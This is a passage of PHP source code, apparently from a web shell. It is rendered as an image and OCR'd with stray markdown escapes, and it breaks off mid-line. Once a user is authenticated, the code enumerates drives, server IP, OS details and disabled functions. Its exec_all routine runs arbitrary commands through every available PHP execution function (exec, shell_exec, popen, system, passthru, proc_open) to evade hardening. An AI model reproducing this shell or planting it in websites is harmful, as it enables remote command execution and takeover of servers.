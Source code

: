 ```
        </form>            </td>        </tr>    </tbody></table><?php}//---------------------------------- We are authenticated now-------------------------------------//Launch the shellelse{    //---------------------------------- Fuctions ---------------------------------------------------    function showDrives()    {        global $self;        foreach(range('A','Z') as $drive)        {            if(is\_dir($drive.':\\\\'))            {                ?>                <a href='<?php echo $self ?>?dir=<?php echo $drive.":\\\\"; ?>'>                    <?php echo $drive.":\\\\" ?>                </a>                <?php            }        }    }    function HumanReadableFilesize($size)    {        $mod = 1024;        $units = explode(' ','B KB MB GB TB PB');        for ($i = 0; $size > $mod; $i++)        {            $size /= $mod;        }        return round($size, 2) . ' ' . $units\[$i\];    }function getClientIp(){    echo $\_SERVER\['REMOTE\_ADDR'\];}function getServerIp(){    echo getenv('SERVER\_ADDR');}function getSoftwareInfo(){    echo php\_uname();}function diskSpace(){    echo HumanReadableFilesize(disk\_total\_space("/"));}function freeSpace(){    echo HumanReadableFilesize(disk\_free\_space("/"));}function getSafeMode(){        global $sm;                echo($sm?"ON :( :'( (Most of the Features will Not Work!)":"OFF");        }function getDisabledFunctions(){    if(!ini\_get('disable\_functions'))    {                echo "None";    }    else    {                        echo @ini\_get('disable\_functions');    }}function getFilePermissions($file){    $perms = fileperms($file);if (($perms & 0xC000) == 0xC000) {    // Socket    $info = 's';} elseif (($perms & 0xA000) == 0xA000) {    // Symbolic Link    $info = 'l';} elseif (($perms & 0x8000) == 0x8000) {    // Regular    $info = '-';} elseif (($perms & 0x6000) == 0x6000) {    // Block special    $info = 'b';} elseif (($perms & 0x4000) == 0x4000) {    // Directory    $info = 'd';} elseif (($perms & 0x2000) == 0x2000) {    // Character special    $info = 'c';} elseif (($perms & 0x1000) == 0x1000) {    // FIFO pipe    $info = 'p';} else {    // Unknown    $info = 'u';}// Owner$info .= (($perms & 0x0100) ? 'r' : '-');$info .= (($perms & 0x0080) ? 'w' : '-');$info .= (($perms & 0x0040) ?            (($perms & 0x0800) ? 's' : 'x' ) :            (($perms & 0x0800) ? 'S' : '-'));// Group$info .= (($perms & 0x0020) ? 'r' : '-');$info .= (($perms & 0x0010) ? 'w' : '-');$info .= (($perms & 0x0008) ?            (($perms & 0x0400) ? 's' : 'x' ) :            (($perms & 0x0400) ? 'S' : '-'));// World$info .= (($perms & 0x0004) ? 'r' : '-');$info .= (($perms & 0x0002) ? 'w' : '-');$info .= (($perms & 0x0001) ?            (($perms & 0x0200) ? 't' : 'x' ) :            (($perms & 0x0200) ? 'T' : '-'));return $info;}/\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*/// exec\_all , A function used to execute commands , This function will only execute if the Safe Mode is// Turned OfF!/\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*/function exec\_all($command){        $output = '';    if(function\_exists('exec'))    {           exec($command,$output);        $output = join("\\n",$output);    }        else if(function\_exists('shell\_exec'))    {        $output = shell\_exec($command);    }        else if(function\_exists('popen'))    {        $handle = popen($command , "r"); // Open the command pipe for reading        if(is\_resource($handle))        {            if(function\_exists('fread') && function\_exists('feof'))            {                while(!feof($handle))                {                    $output .= fread($handle, 512);                }            }            else if(function\_exists('fgets') && function\_exists('feof'))            {                while(!feof($handle))                {                    $output .= fgets($handle,512);                }            }        }        pclose($handle);    }            else if(function\_exists('system'))    {        ob\_start(); //start output buffering        system($command);        $output = ob\_get\_contents();    // Get the ouput        ob\_end\_clean();                 // Stop output buffering    }        else if(function\_exists('passthru'))    {        ob\_start(); //start output buffering        passthru($command);        $output = ob\_get\_contents();    // Get the ouput        ob\_end\_clean();                 // Stop output buffering                }        else if(function\_exists('proc\_open'))    {        $descriptorspec = array(                1 => array("pipe", "w"),  // stdout is a pipe that the child will write to                );        $handle = proc\_open($command ,$descriptorspec , $pipes); // This will return the output to an array 'pipes'        if(is\_resource($handle))        {            if(function\_exists('fread') && function\_exists('feof'))            {                while(!feof($pipes\[1\]))                {                    $output .= fread($pipes\[1\], 512);                }            }            else if(function\_exists('fgets') && function\_exists('feof'))            {                while(!feof($pipes\[1\]))                {                    $output .= fgets($pipes\[1\],512);                }            }        }        pclose($handle);    }    else    {        $output = "They have their Security there! :( ";    }        return(htmlspecialchars($output));    }function magicQuote($text){    if (!get\_magic\_quotes\_gpc())    {        return $text;    }    return stripslashes($text);}//------------------------------------------------------------------------------------------------?></div><div><ul>    <li><a href="<?php echo $self.'?shell';?>">Shell</a></li>    <?php if($lock == 'on')    {    ?>        <li><a href="<?php echo $self.'?log
```